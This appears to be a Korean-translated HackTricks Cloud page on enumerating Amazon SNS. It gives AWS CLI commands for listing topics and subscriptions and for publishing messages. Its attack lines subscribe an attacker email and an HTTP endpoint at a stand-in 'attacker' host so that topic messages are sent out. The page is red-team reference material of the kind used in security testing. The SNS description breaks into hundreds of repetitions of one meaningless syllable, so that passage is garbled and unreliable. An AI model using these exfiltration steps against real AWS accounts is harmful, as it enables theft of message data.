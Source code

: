 # AWS - SNS Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## SNS

Amazon Simple Notification Service (Amazon SNS)는 **완전히 관리되는 메시징 서비스**로 설명됩니다. 이 서비스는 **응용 프로그램 간 (A2A)** 및 **응용 프로그램 대 개인 (A2P)** 통신 유형을 모두 지원합니다.

A2A 통신에 대한 주요 기능은 **게시/구독 (pub/sub) 메커니즘**입니다. 이러한 메커니즘은 고처럼 **주제**를 도입하여 고처럼 **다대다 메시징을 푸시 기반으로 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고처럼 고
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
주제가 FIFO 유형인 경우, 프로토콜 SQS를 사용하는 구독자만 사용할 수 있습니다(HTTP 또는 HTTPS는 사용할 수 없음).

또한, `--topic-arn`에 지역이 포함되어 있더라도 올바른 지역을 **`--region`**에 지정해야 합니다. 그렇지 않으면 액세스 권한이 없다는 오류가 발생할 수 있습니다.
{% endhint %}

### 인증되지 않은 액세스

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### 권한 상승

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### 사후 침투

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### 지속성

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# 참고 자료
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>
